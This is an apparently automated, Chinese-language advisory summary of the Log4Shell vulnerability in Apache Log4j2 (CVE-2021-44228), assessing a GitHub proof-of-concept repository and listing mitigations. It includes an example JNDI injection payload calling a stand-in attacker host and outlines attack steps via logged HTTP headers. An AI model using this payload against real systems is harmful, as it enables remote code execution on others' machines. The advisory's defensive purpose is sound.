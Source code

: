 ## CVE-2021-44228-Log4Shell

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行和完全系统控制

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用受影响的 Log4j2 版本，并且允许消息查找替换功能（默认启用）。攻击者需要能够控制 Log4j2 记录的日志消息或参数。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228，又称 Log4Shell，是一个存在于 Apache Log4j2 中的远程代码执行漏洞。该漏洞源于 Log4j2 的 JNDI (Java Naming and Directory Interface) 功能，该功能允许在日志消息中执行 JNDI 查找。如果攻击者可以控制日志消息的内容，他们就可以注入恶意的 JNDI 查找字符串，从而导致 Log4j2 从攻击者控制的 LDAP 或其他 JNDI 服务加载并执行任意代码。

**有效性：**
根据漏洞库信息和搜索结果，CVE-2021-44228 是一个被广泛利用的严重漏洞。 搜索结果中提供了多个关于漏洞分析、缓解措施和利用的链接。虽然提供的漏洞利用代码仓库只包含一个 README.md 文件，信息很少。但考虑到CVE本身的严重性和公开性，判断存在有效的PoC。

**投毒风险：**
提供的漏洞利用代码仓库 `/tmp/b3e5418f03d45523b0a6001074bd0614/README.md` 只包含简单的描述信息 "CVE-2021-44228-Log4Shell-Kiểm thử xâm nhập" (越南语，意思是渗透测试)。**无法直接从该文件判断是否存在投毒代码。** 但从代码仓库的简洁程度来看，作者可能意图引导用户从其他渠道获取EXP，增加了恶意代码嵌入的可能性，**因此存在一定的投毒风险。风险评估为10%**。

**利用方式：**
漏洞利用的核心在于构造包含恶意 JNDI 查找的日志消息，例如：`${jndi:ldap://attacker.com/evil}`。当 Log4j2 记录包含此字符串的消息时，它会尝试连接到 `attacker.com` 上的 LDAP 服务器，并加载和执行从该服务器返回的 Java 代码。

**攻击步骤：**
1.  攻击者找到一个使用 Log4j2 的应用程序，该应用程序会将攻击者可控的数据记录到日志中。
2.  攻击者将包含恶意 JNDI 查找字符串的payload注入到应用程序的输入字段，例如 HTTP Header (User-Agent, X-Forwarded-For等等)、POST 参数、GET 参数或其他任何会被记录到日志中的数据。
3.  当应用程序记录包含该字符串的日志消息时，Log4j2 会尝试执行 JNDI 查找。
4.  如果应用程序配置允许，Log4j2 将连接到攻击者控制的 JNDI 服务器（例如 LDAP），并下载和执行恶意 Java 代码。

**缓解措施：**
*   升级 Log4j2 到 2.17.1 或更高版本。
*   如果无法升级，可以设置系统属性 `log4j2.formatMsgNoLookups=true` 或环境变量 `LOG4J_FORMAT_MSG_NO_LOOKUPS=true`，以禁用消息查找替换功能。
*   删除 `JndiLookup` 类。

**项目地址:** [khaidtraivch/CVE-2021-44228-Log4Shell-](https://github.com/khaidtraivch/CVE-2021-44228-Log4Shell-)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)